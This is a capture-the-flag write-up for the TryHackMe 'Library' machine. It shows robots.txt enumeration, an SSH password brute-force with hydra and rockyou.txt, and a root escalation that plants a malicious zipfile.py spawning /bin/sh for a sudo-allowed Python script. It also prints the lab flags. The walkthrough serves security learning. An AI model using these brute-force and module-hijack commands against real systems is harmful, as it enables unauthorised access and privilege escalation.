

# Library

---



---

# Enumeration


Open web browser and navigate to the target machine’s IP address

There is a blog post was posted on June 29th 2009 by user `meliodas` → This is a hint for a username to login through `ssh`


Use `curl` to quick view the `robots.txt` file located on the http service from the machine

```
┌──(kali㉿kali)-[~/TryHackMe]
└─$ curl http://10.10.18.6/robots.txt                                               
User-agent: rockyou 
Disallow: /
```

→ Another hint at the `User-agent` which tells us to use the wordlist `rockyou.txt` to crack the `ssh` password with the previous user

# Exploit (Cracking password)

Use `hydra` to crack the password with the following command line

```
hydra -l meliodas -P ~/Downloads/rockyou.txt ssh://10.10.18.6 -t 4
```

- `meliodas`: username
- `~/Downloads/rockyou.txt`: wordlist file path
- `ssh://10.10.18.6`:type of cracking/brute-forcing + IP target
- `-t 4`:task number (faster)

After a few minutes → We found the password


# Gain Access

Login `ssh` with previous credential


Get the user flag

```tsx
meliodas@ubuntu:~$ ls -l
total 8
-rw-r--r-- 1 root     root     353 Aug 23  2019 bak.py
-rw-rw-r-- 1 meliodas meliodas  33 Aug 23  2019 user.txt
meliodas@ubuntu:~$ cat user.txt
6d488cbb3f111d135722c33cb635f4ec
```

# Privilege Escalation → root

```tsx
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

************bak.py************

```python
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

As user `meliodas`, we don’t have the permission to write or modify the file → I create a new file `zipfile.py` at the same directory

```tsx
meliodas@ubuntu:~$ echo 'import os; os.system("/bin/sh")' > zipfile.py
```

Then execute it with `sudo`

```tsx
meliodas@ubuntu:~$ sudo python /home/meliodas/bak.py
# id
uid=0(root) gid=0(root) groups=0(root)
# ls /root
root.txt
# cat /root/root.txt
e8c8c6c256c35515d1d344ee0488c617
```